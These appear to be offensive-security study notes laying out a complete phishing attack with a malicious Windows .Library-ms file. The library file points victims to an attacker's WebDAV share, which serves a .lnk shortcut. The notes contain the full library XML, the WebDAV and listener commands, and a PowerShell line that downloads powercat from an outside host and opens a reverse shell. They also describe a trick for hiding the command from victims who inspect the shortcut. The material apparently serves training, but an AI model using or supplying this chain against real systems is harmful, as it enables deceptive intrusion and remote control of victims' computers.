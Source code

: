 
Windows library files are virtual containers for user content. They connect users with data stored in remote locations like webservices or shares. `.Libaray-ms` file types executed by double clicking in windows explorer.

`.Library-ms` file type can generally make it through emails filters - so we will utilize this file to enable the target to open our WebDAV locally on their computer (like a remote share). On this WebDAV server we will serve our malicious `.lnk` file which will run a malicious powershell payload to obtain a reverse shell. 

`.lnk` files will generally get filtered out quite easily so we manipulate the victim into downloading one through our library file.


#### Setting Up WebDAV to serve .lnk file

1. `pip3 install wsgidav` - install this to enable python to host a webdav server on our machine.
2. `mkdir /home/kali/webdav` - create our root directory for our webdav share
3. `touch /home/kali/webdav/test.txt` - create a file inside of our share for testing.
4. `/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav` - run the command to host our webdav server - if `wsgidav` was installed using apt - use the `wsgidav` command instead.


#### Creating Windows Library File

`These steps need to be repeated everytime the file is run - due the windows trying to optimise for webdave and serialzing data and changing the url to be more optimal - the file will only work on the computer it is run on - and may not work again after computer is restarted` - save the initial xml separately and use over and over.

Open VS Code, create a new text file and save it as `config.Library-ms`.

###### step 1: include the namespace for the library file

This namespace is for the version of the library file format starting from windows 7.

all further tags are placed inside of the `library description`.

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">

</libraryDescription>
```

###### step 2: add library information tags

name tag is the name of the library - it is not an arbitrary random name. It is a `.dll` and an index. for this we can also use `@shell32` but it is more likely to be flagged.

version can be set to a numerical value of out choice.

```
<name>@windows.storage.dll,-34582</name>
<version>6</version>
```

###### step 3: add isLibraryPinned & icon reference

Specifies if the library is pinned to the navigation pane in windows explorer. - Used to manipulate target into thinking this is more genuine and legit.

Icon references decided which icon is displayed. `imageres.dll` allows us to choose between all the windows icon to display.

`-1002` is the documents folder icon
`-1003` is the pictures folder icon

```
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
```


###### step 4: templateInfo

contains the `folderType` tags. which determine the columns and details that appear in the windows explorer by default.

We need to specify a GUID that we can look up on the Microsoft Documentation webpage. This example uses the Documents GUID to appear convincing.

```
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
```


###### step 5: setting library locations

Here we specify the storage location where our library file will point to.

`searchConnectoreDescriptionList` contains a list of search containers. defined by `searchConnectorDescription`.

Search connectors are used by library files to specify the connection settings to a remote location.

We can specify more than one `searchConnectorDescription` inside of `searchConnectorDescriptionList`.

`isDefaultSaveLocation` determines behavior of windows explorer when a user choses to save an item.
`isSupported` is used for compatibility - not present in the documentation.

`simpleLocation` contains our `url` which will point to our webdav server.

```
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
```


#### Creating the .lnk shortcut file.

1. right click on windows desktop>new shortcut.
2. Enter the command we want to run in the `Type the location of the item:` input

```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');
powercat -c 192.168.119.3 -p 4444 -e powershell"
```

3. press next
4. Give appropriate name to shortcut

`If we expect that our victims are tech-savvy enough to actually check where the shortcut files are pointing, we can use a handy trick. Since our provided command looks very suspicious, we could just put a delimiter and benign command behind it to push the malicious command out of the visible area in the file's property menu. If a user were to check the shortcut, they would only see the benign command.`

`Instead of using a Python3 web server to serve Powercat, we could also host it on the WebDAV share. However, as our WebDAV share is writable, AV and other security solutions could remove or quarantine our payload. If we configure the WebDAV share as read-only, we'd lose a great method of transferring files from target systems. Throughout this course, we'll use a Python3 web server to serve our payload for attacks utilizing Windows Library files.`


#### Conducting the attack

1. `nc -nvlp 4444` - our reverse listener for the connection
2. `python3 -m http.server 8000` - our powercat server to server powercat
3. `/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav` - ensure our webdav server is running
4. send config file via email and wait.


